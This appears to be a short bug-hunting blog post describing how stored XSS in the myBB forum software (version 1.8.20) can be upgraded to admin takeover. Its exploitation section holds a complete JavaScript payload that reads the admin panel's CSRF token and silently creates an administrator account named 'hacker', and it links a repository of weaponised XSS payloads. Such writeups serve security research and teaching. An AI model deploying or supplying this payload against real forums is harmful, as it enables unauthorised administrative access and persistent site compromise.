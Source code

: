 ```yaml
---
layout: post
title:	"myBB - Add Administrator via XSS"
date:	2019-05-29 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> myBB - Add Administrator via XSS </title>
</head>


# i. Introduction
While browsing Twitter, I happened to come upon [hakluke's](https://twitter.com/hakluke) blog post about upgrading an XSS from a medium to a critical bug. Long story short it detailed on how an XSS is able to bypass most CSRF protection mechanisms, and completely bypassing the Same Origin Policy. The most popular anti-CSRF mechanism are CSRF tokens. However, Javascript is able to request the form, parse the token, and then send it along with the subsequent request to perform a sensitive action. 

If you would like to read more about how this works, I highly recommend reading hakluke's blog post which can be found here: https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

hakluke included several proof of concepts for popular CMS platforms such as Wordpress and Drupal. I decided I wanted to give it a shot, and try testing it with a forum software that we all know and love... myBB. 

There are several reasons why I chose myBB, however the major one was that developers are able to create their own plugins similar as to Wordpress. By allowing developers to create third party plugins, it opens the door for a plethora of bugs, which XSS seems to be common. 


# ii. Exploitation

I have modified hakluke's original Wordpress script to work with myBB.

Script:
~~~
/*
mybb - adds administrator with username hacker and password hacker12345
tested on latest version of mybb v1.8.20
original script by hakluke modified by mqt
*/
var mybb_root = "" // don't add a trailing slash
var req = new XMLHttpRequest();
var url = mybb_root + "/admin/index.php?module=user-users&action=add";
var regex = /my_post_key" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "my_post_key="+nonce+"&username=hacker&password=hacker12345&confirm_password=hacker12345&email=hacker@hacker.com&usergroup=4&displaygroup=0"; //make sure passwod is 6+ chars
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~ 

In short, in order to perform any sensitive action in the myBB Admin Panel, there is a token that is required which is called `my_post_key`. The following script sends a request to the myBB Admin Panel (which seems to have a lifespan of 30 minutes before asking the user to reauthenticate), retrieves the source and parses it looking for `my_post_key`. Once it finishes, it sends a subsequent request to add a user to the Administrator group with the username as hacker and password as hacker12345.


Here is a video proof of concept demonstrating it in action:
[video poc]

You can find this script and more powerful scripts on the `weaponised-XSS-payloads` repo which can be found here: https://github.com/hakluke/weaponised-XSS-payloads

# iii. Conclusion

What really made this concept interesting to me was that whenever people hear XSS, the first thing that pops into mind is cookie stealing. While cookie stealing can be very powerful, there are some downsides. One major downside occurs in stored XSS. In stored XSS, it is hard to gauge whenever the payload will execute. In a lot of cases, by the time the payload executes and you receive the cookie, the session is expired by then. However using a script like this, you can ensure that you have some form of persistence.

Once again, all credit goes to [hakluke](https://twitter.com/hakluke) and their wonderful blog post.

As always, thank you for reading.
- mqt

Sources:
~~~
https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4
~~~


